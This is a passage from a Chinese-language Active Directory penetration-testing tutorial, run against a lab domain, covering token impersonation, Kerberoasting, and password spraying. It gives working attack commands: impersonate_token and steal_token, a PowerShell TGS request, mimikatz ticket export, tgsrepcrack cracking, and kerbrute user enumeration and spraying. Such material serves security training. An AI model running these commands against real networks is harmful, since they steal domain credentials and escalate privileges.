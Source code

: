 指定权限窃取：impersonate_token "NT AUTHORITY\SYSTEM"

或指定进程窃取：steal_token 1920

返回之前token：rev2self 或 drop_token

同理可窃取域账户获取域用户权限：



**cs**

steal_token 命令窃取token

## 4.5、Kerberoasting

在KRB_TGS_REP中，TGS会返回给Client一张票据ST，而ST是由Client请求的Server端密码进行加密的。当Kerberos协议设置票据为RC4方式加密时，我们就可以通过爆破在Client端获取的票据ST，从而获得Server端的密码。

在上述SPN信息收集中得到一个域用户test注册了一个SPN，我们请求TGS：

powershell

```
$SPNName  = 'test/test'
Add-Type  -AssemblyNAme System.IdentityModel
New-Object  System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList  $SPNName
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0lFf4avoIbtBaBQ537K6HR8foUaEM2ia8yzc4aaeHUiclfBvZflICq5aA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

再利用mimikatz导出：

kerberos::list  /export

![图片](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0lPrR6wYtYGSNOVgR2QuY5IQiaXeHBiabyIxOaHIdbWgIcsKrLPKZb34w/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

然后利用tgsrepcrack暴力破解：

python  tgsrepcrack.py wordlist.txt 2-40a10000-win7user@test\~test-JUMBOLAB.COM.kirbi

最终成功获取该域用户密码：

![图片](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0k1icapYYraVDAh1WbxFicQMnibOju3TFlFVfcg2L0ylR5mIQeRsk1L2tA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

## 4.6、密码喷射

爆破用户：

kerbrute  userenum -d jumbolab.com usernames.txt

## ![图片](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0A70FEDmxargveiadVqkAbUrIEo9kPhbdSicic1oeeEzlM1efSzBaNu1XQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

密码喷射:

kerbrute passwordspray -d jumbolab.com username.txt  aA1234567
